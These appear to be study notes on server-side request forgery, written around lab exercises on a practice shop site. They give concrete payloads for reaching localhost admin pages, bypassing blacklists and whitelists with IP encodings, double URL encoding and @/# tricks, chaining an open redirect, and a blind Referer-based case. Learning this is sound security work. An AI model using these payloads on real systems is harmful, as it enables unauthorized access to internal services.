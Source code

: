 ### Localhost as the target url
> Note: The administrative interface might listen on a different port number

Let's say there's an endpoint which accepts the following req.body:
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```
The result of that request is returned to the client. We can change the req.body to:
```
stockApi=http://localhost/admin
```
which may return us an html for the admin page


### SSRF with blacklist-based input filter
Ways of circumventing blacklists:
- Use an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
- Register your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters.

#### Lab:
Let's say we're trying to SSRF into http://localhost/admin but the input is blacklisted
We can try to avade the blacklist by double url encoding "a" letter from /admin
And the req.body becomes: stockApi=http://127.1/%25%36%31dmin

### SSRF with whitelist-based input filters
The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method: 

- You can embed credentials in a URL before the hostname, using the `@` character. For example:
```
https://expected-host:fakepassword@evil-host
```

- You can use the `#` character to indicate a URL fragment. For example:
```
https://evil-host#expected-host
```

- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```
https://expected-host.evil-host
```

- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.

- You can use combinations of these techniques together.

#### Lab:
THere's a check stock endpoint with the following req.body:
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1
```
If we change it to:
```
stockApi=http://localhost OR stockApi=http://127.0.0.1
```
We get an err:
```
External stock check host must be `stock.weliketoshop.net`
```
Which indicates that there's a whitelist that contains `stock.weliketoshop.net`

We play around with it and try the following:
```
stockApi=http://random#stock.weliketoshop.net
```
which gives us back the same error:
```
"External stock check host must be stock.weliketoshop.net"
```
which means that it treats random as the url and `stock.weliketoshop.net` as an element on the website

We can try to double-url-encode `#` character and see what we get as a response
```
stockApi=http://localhost%2523stock.weliketoshop.net
```
After double-url encoding it, we get the same err:
```
"External stock check host must be stock.weliketoshop.net"
```
But if we add `@` - we can get a response from `localhost` (which in this case contains a link to `/admin`)
```
stockApi=http://localhost%2523@stock.weliketoshop.net
```

### Open redirection
Let's say the user-submitted URL is strictly validated
But let's also say there are 2 different endpoints:
```
POST /product/stock HTTP/2 
req.body = stockApi=/product/stock/check?productId=1&storeId=1
```
And the second:
```
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/2
```

We can try to modify the req.body of the first endpoint to the following:
```
stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```
And it will include the contents of /admin in the POST /product/stock response
In other words server will return  302 redirection to whatever is specified in `path` param 

## Blind SSRF vulnerabilities
> Note: It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations. 

### Lab: Blind SSRF with out-of-band detection
The lab is very simple. The server extracts value from Referer header and makes a request to the url that is specified in the referrer header.


